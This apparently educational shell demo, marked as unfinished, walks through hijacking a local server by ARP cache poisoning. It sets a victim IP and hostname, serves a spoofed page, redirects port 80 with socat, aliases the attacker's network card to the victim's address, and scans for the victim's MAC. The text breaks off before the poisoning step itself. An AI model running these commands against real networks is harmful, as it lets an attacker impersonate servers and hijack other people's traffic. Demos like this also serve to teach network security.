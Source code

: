 > :construction: TK-TODO
         
```sh
# Some assumptions for this demo:
VICTIM_IP=192.168.9.10
VICTIM_mDNS=server.local
INTERFACE=en0

# Make a temporary directory to store our spoofed site.
mkdir /tmp/hijack
cd !$ # Go there.

# Place an `index.html` file in the directory that will be the
# HTTP server's document root.
echo "Expecting a local server? Surprise! It's been hijacked by an ARP cache poisoning attack." > index.html

# Start an HTTP server on port 8000 (the default).
python3 -m http.server &

# Become a `sudo`'er so that we can bind to privileged ports.
su admin

# Redirect port 80 traffic to our HTTP server on localhost.
sudo socat TCP4-LISTEN:80,reuseaddr,fork TCP:127.0.0.1:8000

# Find the IP address of the device we are going to impersonate.
dns-sd -G v4 $VICTIM_mDNS # Resolve (via mDNS) the server's domain name.
# GNU/Linux users will probably want to do:
#avahi-resolve --name -4 $VICTIM_mDNS

# Alias our own NIC to the IP address that we want to masquerade as.
# NOTE: This is not necessary for an MITM, since we just need to pass
# traffic back and forth between our two targets. However, as this is
# demos a *hijack* rather than an MITM, we need to respond *as* the
# target instead of passing traffic *to* the target.
sudo ifconfig $INTERFACE ${VICTIM_IP}/24 alias
# GNU/Linux users will probably want to do this instead:
#ip address add ${VICTIM_IP}/24 dev $INTERFACE


# Now that we know the server's IP address, let's note its MAC address.
# If it responds to ICMP echo requests, `ping` will show us output:
ping $VICTIM_IP

# If it doesn't, we can do an ARP scan instead. There are many tools, but I
# like using `nmap`; its `-sn` option will do only a host discovery scan.
sudo nmap -sn -PR $VICTIM_IP # Note `-PR` is default, so can be omitted.

# An alternative tool that provides more output is `arp-scan`.
arp-scan $VICTIM_IP

# We can also use the `arping` utility for a more surgical approach:
sudo arping -c 1 -i $INTERFACE $VICTIM_IP

# We should now have an entry in our local ARP table ("ARP cache"):
arp -n $VICTIM_IP
# GNU/Linux users will probably want to do this instead:
#ip neighbour show $VICTIM_IP

# To actually perform the attack (i.e., to lie about the MAC-to-IP
# mapping to the network), we can configure our attack machine to
# respond to ARP requests for the victim IP address with our own
# NIC's MAC address. This will not *necessarily* work due to the fact
```